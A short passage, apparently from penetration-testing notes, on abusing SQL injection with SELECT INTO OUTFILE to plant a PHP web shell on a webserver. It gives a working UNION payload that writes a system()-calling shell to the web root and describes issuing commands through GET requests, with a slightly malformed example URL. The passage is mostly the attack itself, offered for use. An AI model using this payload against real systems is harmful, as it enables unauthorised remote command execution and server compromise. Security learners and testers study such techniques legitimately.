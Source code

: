 In other database scenarios we can abuse the `SELECT INTO_OUTFILE` statement and we can try to upload something malicious in the webserver. We must have write permission in the folder we will write the file into.

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Next, with a simple GET request like `/tmp/cmd=whoami` we can execute commands on the webserver.
